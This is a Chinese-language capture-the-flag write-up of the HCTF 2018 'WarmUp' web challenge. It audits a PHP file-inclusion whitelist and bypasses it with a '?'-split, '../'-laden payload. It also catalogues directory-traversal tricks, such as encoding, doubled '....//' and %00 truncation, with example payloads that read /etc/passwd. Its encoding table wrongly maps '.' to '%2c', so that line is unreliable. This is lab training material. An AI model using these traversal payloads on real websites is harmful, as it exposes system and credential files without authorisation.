


# [[HCTF 2018]WarmUp](https://buuoj.cn/challenges#[HCTF%202018]WarmUp)

## 解题步骤

1. 创建靶机后，发现打开是一个`笑脸`的图片
2. `开发者工具`中可以看到`source.php`
3. 网址后面加上参数`?file=source.php`，能够得到`source.php`，接下来需要做的就是进行`php代码审计`    

    

4. 代码中最为明显的就是除了`source.php`还有一个`hint.php`    
```php
$whitelist = ["source"=>"source.php","hint"=>"hint.php"];
```

5. 使用同样的方法查看`hint.php`:`?file=hint.php`      
```
flag not here, and flag in ffffllllaaaagggg
```

    

得到了`flag`可能存在的位置

6. 对`php`代码进行审计
```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {   # 首先是isset()判断变量是否声明，is_string判断参数是否为字符串
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) { # source.php 和 hint.php是白名单可以直接
                return true;
            }

            $_page = mb_substr(    # mb_substr() 函数返回字符串的一部分
                $page,
                0,
                # 将$_page后拼接.
                mb_strpos($page . '?', '?') # mb_strpos：返回要查找的字符串首次出现的位置
            
            );
            if (in_array($_page, $whitelist)) { # 与白名单进行比对
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?') 
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file']) # file不能为空
        && is_string($_REQUEST['file'])  # 需要是字符串
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];  # 
        exit;
    } else { # 不满足则返回笑脸
        echo "<br>";
    }  
?>
```
7. `include $_REQUEST['file'];`：所有条件满足后，会执行传入的参数，所以想要拿到`flag`需要解决以下两个问题：
    1. 如何绕过这些判断
    2. `flag`如何通过`这个文件`获得
- 其实在这里，突然想到刚刚的`flag not here, and flag in ffffllllaaaagggg`，直接用参数`?file=ffffllllaaaagggg.php`试试，很可惜，不能，只能继续审计代码    
8. 代码的关键在于`_page`变量，代码会取`$_page`中`?`之前的值与白名单进行比对，所以只需要将`ffffllllaaaagggg.php`挂在`source.php`后面,并用`?`分隔，这样`$_page`的值就是`source.php`，能成功绕过白名单比对
```php
?file=source.php?ffffllllaaaagggg.php
```
9. 访问出来的页面为空，但是没有`you can't see it`的输出，说明绕过是成功的，但是`flag`对应的文件可能有问题
10. 通过[其他的writeup](https://blog.csdn.net/qq_36438489/article/details/106090196)发现，是`ffffllllaaaagggg.php`的路径有误，需要通过`../`来逐层查找`ffffllllaaaagggg.php`文件
- 添加`../`的原因是利用[目录穿越漏洞](https://blog.csdn.net/angry_program/article/details/107855078)
    - 目录穿越(Directory Traversal)攻击是黑客能够在Web应用程序所在的根目录以外的文件夹上，任意地存取被限制的文件夹、执行命令或查找数据。
    - 主要是因为后端没有对`../`进行过滤，攻击者可以传入`?filename=../../../etc/passwd`类似参数，从而获取敏感文件
- 目录穿越攻击方法
    1. 利用 ../ 返回上一级来遍历任意文件
    2. 直接使用**绝对路径**，例如`filename=/etc/passwd`
    3. 双写`../`绕过，例如`filename=....//....//....///etc/passwd`。这是因为有些网站的防御措施是直接将`../`替换为空
    4. URL编码绕过。甚至可以采用双重编码
    ```
    .   =>  %2c

    /   =>  %2f

    % => %25  (双重URL编码)
    ```
    5. 绝对路径配合`../`，例如：`/var/www/images/../../../etc/passwd`，因为有些网站会判断路径是否以一个固定的路径开头
    6. 利用`%00`截断文件后缀，例如：`../../../etc/passwd%00.jpg`，因为有些网站会限制后缀
11. 最后的参数应该为：`?file=source.php?/../../../../ffffllllaaaagggg`


## 参考资料

- [攻防世界-warmup_mb_substr()+mb_strpos()绕过](https://blog.csdn.net/qq_36438489/article/details/106090196)
- [目录穿越/遍历漏洞](https://blog.csdn.net/angry_program/article/details/107855078)